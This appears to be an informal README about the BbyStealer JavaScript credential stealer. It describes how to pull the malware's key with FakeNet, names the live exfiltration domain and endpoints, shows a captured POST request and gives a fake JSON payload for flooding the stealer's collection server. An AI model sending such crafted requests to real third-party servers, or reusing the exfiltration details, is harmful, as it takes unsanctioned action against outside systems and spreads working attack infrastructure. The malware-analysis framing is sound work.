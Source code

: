 
<!-- WARNING HTML -->

<table align="center">
  <tr>
    <th>Title</th>
  </tr>
  <tr>
    <td>BbyStealer</td>
  </tr>
</table>
<br></br>

<!-- WARNING HTML -->

Hello, did you heard about [BbyStealer](https://github.com/Green-Avocado/bbystealer-malware-analysis) ?
This is a shitty javascript malware to steal somes browsers passwords, cookies and target somes discord clients for your account token.
BbyStealer can download a malicious javascript code online to pick your discord creds with functions detouring.

## Start

**How many people thought of sending shit trought BbyStealer x)**

Let's see what we would need to do that:

- Get the BbyStealer key.
- Somes endpoints for sending the shitty data.
- Knowledge of scripting.

### How would I got the BbyStealer key ?

**Dynamic or static analysis ?**

The javascript malware is obfuscated, to be fast you can setup a vm and install [FakeNet](https://github.com/mandiant/flare-fakenet-ng), launch the malware and use FakeNet to get the request (The path is the key look like this key:jNQzkAMmc1Uy)


### Endpoints !

Right now we know somes existing endpoints with POST http method:

- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy/tokens
- [maliciousWebsite](https://superfuniestindianparty.rip)/jNQzkAMmc1Uy

The request:

```

POST /jNQzkAMmc1Uy HTTP/1.1
Host: superfuniestindianparty.rip
Connection: keep-alive
Content-Length: 215
Access-Control-Allow-Origin: *
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9003 Chrome/91.0.4472.164 Electron/13.4.0 Safari/537.36
Content-Type: application/json
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: fr


**Our data in json format**

```

### How to send our fake data ?

To send our data, I made a simple payload look at this

```json
{"username":"discord.gg/miaou","id":"Ajoute-moi","avatar":null,"badges":1,"email":"freeearlyavie@gmail.com","token":".gg/overdrive","type":"login","password":"UNEARLY"}
```

Lets re-use our request we got and put the fake data in!

## Ending

Thanks for reading this <3
